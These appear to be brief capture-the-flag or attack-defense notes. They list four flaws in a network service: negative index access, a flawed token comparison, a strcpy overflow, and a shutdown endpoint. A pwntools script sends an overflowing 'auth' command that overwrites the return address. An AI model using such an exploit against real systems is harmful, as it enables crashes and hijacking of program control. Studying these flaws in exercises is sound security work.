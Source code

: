 1. Negative index ("-1") of array lacks access control
2. Auth token is compared by least lengthy string (my_strcmp)
3. PWN `strcpy` (easy DoS crash, ROP)

```python
from pwn import *

conn = remote('10.80.6.2', 6767)
conn.sendline(b"auth " + b'A'*(256+8) + p64(0x405967))
print(conn.recv().decode())
conn.close()
```
4. Binary shutdown via http endpoint 
